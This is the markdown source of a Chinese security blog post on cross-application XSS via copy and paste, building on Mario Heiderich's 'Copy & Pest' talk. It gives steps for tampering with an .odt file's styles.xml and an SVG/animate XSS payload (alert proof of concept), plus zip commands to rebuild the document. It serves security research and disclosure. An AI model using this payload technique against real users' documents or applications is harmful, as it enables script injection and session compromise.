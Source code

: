 ```yaml
---
layout: post
title: 跨站世界中有趣的复制与粘贴
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


Mario Heiderich 在 2015-03-30 发表了名为《Copy & Pest - A case-study on the clipboard, blind trust and invisible cross-application XSS》的 PPT ，地址：[http://www.slideshare.net/x00mario/copypest](http://www.slideshare.net/x00mario/copypest)

PPT 讲述了几个部分：
 
 - 为什么会出现这种问题？
 - 为什么问题会出现在这里？
 - 我们能够做些什么？
 - 谁需要修复这些问题？
 - ...
 
我在10年使用阿里旺旺时发现从 Office 中复制过来的内容巧妙的在输入框内保持了原有样式，虽知可能会存在一些问题，但简单的折腾了下并未能真正做出复制与粘贴风险的DEMO，马里奥这个比较有意思，另外这里的复制粘贴与富文本有那么点儿相似，但却大不同。

 - [http://server.n0tr00t.com/tools/copypaste.html](http://server.n0tr00t.com/tools/copypaste.html) @html5sec
 
上面小脚本能将剪切板中的内容解析出来，例如我们使用 Word 编辑文字后并粘贴到 [3rd: and paste is here] 区域：

![http://ww2.sinaimg.cn/large/c334041bgw1eqy8r2xhttj213h0f7acd.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqy8r2xhttj213h0f7acd.jpg)


    <!--[if gte mso 10]>
    <style>
     /* Style Definitions */
    table.MsoNormalTable
        {mso-style-name:"Table Normal";
        mso-tstyle-rowband-size:0;
        mso-tstyle-colband-size:0;
        mso-style-noshow:yes;
        mso-style-priority:99;
        mso-style-parent:"";
        mso-padding-alt:0cm 5.4pt 0cm 5.4pt;
        mso-para-margin:0cm;
        mso-para-margin-bottom:.0001pt;
        mso-pagination:widow-orphan;
        font-size:12.0pt;
        font-family:Cambria;
        mso-ascii-font-family:Cambria;
        mso-ascii-theme-font:minor-latin;
        mso-hansi-font-family:Cambria;
        mso-hansi-theme-font:minor-latin;
        mso-fareast-language:ZH-CN;}
    </style>
    <![endif]-->

    <!--StartFragment-->
    <p class="MsoNormal"><b><span style="font-size:28.0pt;font-family:&quot;Apple Chancery&quot;;color:red">Linux.im<o:p></o:p></span></b></p>
    <!--EndFragment-->
    
眼见并不为真，来对已经公开的案例进行重现（LibreOffice Writer for Ubuntu）：

 1. 新建 OpenOffice odt 文档
 2. 修改为压缩包格式
 3. 篡改 odt 目录结构中的 XML
 4. 无损恢复成原始文档
 
##### 创建文档

![http://ww4.sinaimg.cn/large/c334041bgw1eqy966a4btj21fc0d542b.jpg](http://ww4.sinaimg.cn/large/c334041bgw1eqy966a4btj21fc0d542b.jpg)

此时复制解析后的 text/html 代码为：

    <style type="text/css">H1 { margin-bottom: 0.08in; }H1.western { font-family: "Liberation Sans",sans-serif; font-size: 16pt; }H1.cjk { font-family: "WenQuanYi Micro Hei"; font-size: 16pt; }H1.ctl { font-family: "Lohit Hindi"; font-size: 16pt; }P { margin-bottom: 0.08in; }</style>

    <h1 class="western"><font color="#800000"><font style="font-size: 28pt" size="6"><span style="background: #ffff00">Linux.im: Please copy me =)</span></font></font></h1>

##### 修改格式

![http://ww3.sinaimg.cn/large/c334041bgw1eqy9a2zgzjj20ka0hyae6.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqy9a2zgzjj20ka0hyae6.jpg)

##### 篡改 styles.xml

    <style type="text/css">H1 { margin-bottom: 0.08in; }H1.western { font-family: "Liberation Sans",sans-serif; font-size: 16pt; }H1.cjk { font-family: "WenQuanYi Micro Hei"; font-size: 16pt; }H1.ctl { font-family: "Lohit Hindi"; font-size: 16pt; }P { margin-bottom: 0.08in; }</style>
    
寻找可控点为 font-family ，篡改对应的 styles 样式文件，闭合标签并植入恶意 Payload：

    &lt;/style&gt;&lt;div contenteditable=false&gt;&lt;svg&gt;&lt;style&gt;svg {position:fixed}&lt;/style&gt;&lt;style&gt;svg {top:0}&lt;/style&gt;&lt;style&gt;svg {left:0}&lt;/style&gt; &lt;style&gt;svg {height:10000px}&lt;/style&gt; &lt;style&gt;svg {width:10000px}&lt;/style&gt; &lt;style&gt;svg {opacity:0}&lt;/style&gt; &lt;a xmlns:xlink=&quot;http://www.w3.org/1999/xlink&quot; xlink:href=&quot;?&quot;&gt; &lt;circle r=&quot;4000&quot;&gt;&lt;/circle&gt; &lt;animate attributeName=&quot;xlink:href&quot; begin=&quot;0&quot; from=&quot;javascript:alert(document.domain)&quot; to=&quot;&amp;&quot; /&gt; &lt;/a&gt;1
    
##### 恢复原始文档

    _> zip -u x1.zip
    _> mv x1.zip x1.odt

![http://ww1.sinaimg.cn/large/c334041bgw1eqy9o9bhjbj21eq0jpjyw.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqy9o9bhjbj21eq0jpjyw.jpg)

##### 其它

- Adobe Reader
- Microsoft Office
- XPS Viewer
- ...

Mario PPT 中讲谈到了几个典型应用存在的类似问题，随后我又对 MS Office For MAC 等软件进行了挖掘，比较有趣的是 MS Office For MAC 版本中的 XSS Filter 耗费了我大量时间来 Bypass 过滤器，感兴趣的可以试一下。

这种交互式跨站攻击虽稍有鸡肋，但在现实世界中可能仍会发生，期待未来的真实案例。



